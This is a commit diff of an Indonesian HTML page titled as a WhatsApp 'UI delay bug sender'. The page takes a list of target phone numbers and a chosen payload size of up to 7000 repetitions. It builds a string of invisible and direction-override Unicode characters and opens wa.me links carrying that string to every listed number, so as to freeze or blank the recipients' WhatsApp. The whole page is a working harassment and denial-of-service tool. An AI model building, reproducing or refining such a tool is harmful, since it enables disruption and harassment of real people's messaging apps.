

Before and after one commit to BabyCpanel/Baby, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 132-800 px from the top of the page, without its empty margins (289-992 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,22 +2,22 @@
 <html lang="id">
 <head>
   <meta charset="UTF-8">
-  <title>Bug WhatsApp Web - UI Blank</title>
+  <title>Bug WhatsApp UI Delay - Versi Lengkap</title>
   <style>
     body {
-      background-color: #f0f2f5;
       font-family: Arial, sans-serif;
       text-align: center;
-      padding: 50px;
+      background: #f1f1f1;
+      padding: 40px;
     }
     h1 {
       color: #25D366;
     }
-    input, textarea {
+    textarea, input, select {
       width: 90%;
       max-width: 400px;
       margin: 10px auto;
-      padding: 12px;
+      padding: 10px;
       font-size: 16px;
       border-radius: 8px;
       border: 1px solid #ccc;
@@ -25,45 +25,75 @@
     button {
       background-color: #25D366;
       color: white;
-      padding: 12px 30px;
-      font-size: 16px;
+      padding: 12px 25px;
       border: none;
       border-radius: 8px;
+      font-size: 16px;
+      margin-top: 20px;
       cursor: pointer;
-      margin-top: 20px;
     }
     button:hover {
       background-color: #128C7E;
     }
+    .verifikasi {
+      margin-top: 20px;
+      color: #777;
+    }
   </style>
 </head>
 <body>
-  <h1>🧨 Kirim Bug WhatsApp: UI Blank & Delay</h1>
-  <input type="text" id="nomor" placeholder="Masukkan nomor WA (cth: 628xxxxxx)" /><br>
-  <textarea id="pesan" rows="5" placeholder="Pesan Bug akan otomatis terisi..."></textarea><br>
-  <button onclick="kirim()">🚀 Kirim Sekarang</button>
+  <h1>🚀 WhatsApp UI Delay Bug Sender</h1>
+
+  <textarea id="nomorList" rows="5" placeholder="Masukkan nomor WA (format: 628xxxxx), satu per baris"></textarea><br>
+
+  <label for="jumlah">Jumlah Payload (semakin tinggi = makin berat)</label><br>
+  <select id="jumlah">
+    <option value="500">Ringan (500)</option>
+    <option value="1500" selected>Sedang (1500)</option>
+    <option value="3000">Berat (3000)</option>
+    <option value="7000">Ekstrem (7000)</option>
+  </select><br>
+
+  <div class="verifikasi">
+    ✅ <strong>Verifikasi Nomor:</strong><br>
+    <input type="text" id="verif" placeholder="Masukkan salah satu nomor target untuk verifikasi" />
+    <button onclick="verifikasi()">Verifikasi</button>
+  </div>
+
+  <button id="kirimBtn" onclick="kirim()" disabled>🔥 Kirim Bug Sekarang</button>
 
   <script>
-    // Karakter Unicode kombinasi delay + blank + invisible
-    const payload = "\u2063\u200f\u202e\u200b\u200f\u202d\u200c\u2062".repeat(1800);
+    let sudahVerif = false;
 
-    // Isi otomatis field pesan
-    document.getElementById("pesan").value = payload;
+    function verifikasi() {
+      const verif = document.getElementById("verif").value.trim();
+      if (verif.startsWith("62") && verif.length >= 10) {
+        alert("✅ Nomor berhasil diverifikasi!");
+        sudahVerif = true;
+        document.getElementById("kirimBtn").disabled = false;
+      } else {
+        alert("❌ Nomor tidak valid. Harus mulai dari 62 dan minimal 10 digit.");
+      }
+    }
 
     function kirim() {
-      const nomor = document.getElementById("nomor").value.trim();
-      const pesan = document.getElementById("pesan").value;
-
-      if (!nomor.startsWith("62")) {
-        alert("❌ Nomor harus dimulai dengan 62 (kode negara Indonesia)");
+      if (!sudahVerif) {
+        alert("❌ Verifikasi dulu sebelum mengirim!");
         return;
       }
 
-      const encodedPesan = encodeURIComponent(pesan);
-      const linkWA = `https://wa.me/${nomor}?text=${encodedPesan}`;
+      const rawNomor = document.getElementById("nomorList").value.trim().split("\n");
+      const jumlah = parseInt(document.getElementById("jumlah").value);
+      const payload = "\u2063\u200f\u202e\u200b\u200c\u2062".repeat(jumlah);
+      const encoded = encodeURIComponent(payload);
 
-      // Otomatis membuka WhatsApp Web atau aplikasi WA
-      window.location.href = linkWA;
+      rawNomor.forEach(nomor => {
+        const no = nomor.trim();
+        if (no.startsWith("62")) {
+          const url = `https://wa.me/${no}?text=${encoded}`;
+          window.open(url, "_blank");
+        }
+      });
     }
   </script>
 </body>
```
